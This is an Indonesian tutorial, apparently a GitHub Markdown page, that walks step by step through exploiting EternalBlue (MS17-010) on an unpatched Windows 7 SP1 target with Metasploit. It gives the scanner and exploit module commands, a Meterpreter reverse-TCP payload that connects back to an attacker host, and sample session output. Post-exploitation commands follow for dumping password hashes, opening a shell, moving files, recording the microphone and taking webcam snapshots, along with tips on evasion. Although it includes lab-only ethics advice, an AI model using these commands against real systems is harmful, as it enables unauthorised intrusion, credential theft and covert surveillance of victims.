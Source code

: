 # Exploit Real Target: Windows 7 SP1 dengan EternalBlue (MS17-010)

## A. Apa Itu EternalBlue?

[EternalBlue](https://en.wikipedia.org/wiki/EternalBlue) adalah sebuah exploit untuk kerentanan [SMB](https://en.wikipedia.org/wiki/Server_Message_Block)v1 (Server Message Block version 1) pada sistem Windows, yang ditemukan oleh [NSA](https://www.nsa.gov/) dan bocor oleh grup [Shadow Brokers](https://en.wikipedia.org/wiki/The_Shadow_Brokers).

- Kerentanan ini diberi ID: `CVE-2017-0144`
- Dapat digunakan untuk RCE (remote code execution) tanpa autentikasi.
- Sangat efektif terhadap `Windows XP`, `Vista`, `7`, `8`, `Server 2003`, `2008`, hingga `2012` yang belum di-patch.

## B. Alat dan Bahan

- `Kali Linux` dengan `Metasploit Framework`
- Target: `Windows 7 SP1` (belum di-patch MS17-010)
- Koneksi jaringan lokal antara attacker dan target

## C. Langkah-Langkah Eksploitasi EternalBlue

### 1. Jalankan Metasploit:

```
msfconsole
```

Tunggu sampai muncul prompt seperti ini:

```
msf6 >
```

### 2. Scan Target

Sebelum melakukan eksploitasi terhadap target, langkah awal sebelum melakukan eksploitasi adalah dengan meng-scan target, apakah target rentan atau tidak.

Gunakan modul `uxiliary/scanner/smb/smb_ms17_010` dari Metasploit untuk meng-scan EternalBlue:

```
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <IP_TARGET>
set RPORT 445
set verbose true
run
```

Kalau hasil output-nya seperti ini:

```
[*] 192.168.1.45:445      - Connected to \\192.168.1.45\IPC$ with TID = 2048
[*] 192.168.1.45:445      - Received STATUS_INSUFF_SERVER_RESOURCES with FID = 0
[+] 192.168.1.45:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.1.45:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Itu artinya target rentan terhadap eksploitasi EternalBlue.

### 3. Eksploitasi Target

Untuk melakukan eksploitasi EternalBlue gunakan modul `exploit/windows/smb/ms17_010_eternalblue` dari Metasploit:

```
use exploit/windows/smb/ms17_010_eternalblue
```

**Atur Parameter:**

```
set RHOSTS <IP_TARGET>
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
```

**Jalankan Eksploit:**

```
exploit
```

Jika berhasil, kamu akan mendapatkan sesi Meterpreter:

```
[*] Sending stage (203846 bytes) to 192.168.1.10
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 2 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-05-07 20:27:03 +0700

meterpreter > 
```

Setelah berhasil mendapatkan sesi Meterpreter, kamu bisa melakukan beberapa hal diantaranya:

Melihat informasi sistem target:

```
sysinfo
```

Menampilkan User ID (UID):

```
getuid
```

Mengekstrak hash password pengguna:

```
hashdump
```                    

Membuka command shell (cmd.exe) dari mesin korban:

```
shell
```                    

Upload file ke target:

```
upload 
```           

Download file dari target:

```
download
```

Rekam suara dari microphone target:

```
record_mic 
```     

Ambil snapshot dari webcam target:

```
webcam_snap
```

Dan masih banyak lagi.

## D. Tips Keamanan dan Etika

- Gunakan hanya di lab atau uji coba yang kamu kelola sendiri.
- Jangan gunakan di jaringan orang lain tanpa izin.
- Windows 7 SP1 sudah tidak mendapatkan update, tapi banyak masih digunakan di sistem tua, gunakan untuk pelatihan, bukan penyerangan nyata.

## Tips Tambahan

- Jika exploit gagal, coba gunakan `encoder` atau teknik `evasion`.
- Pastikan SMB port (445) pada target terbuka.
- Selalu tes di `VirtualBox`/`VMware`.
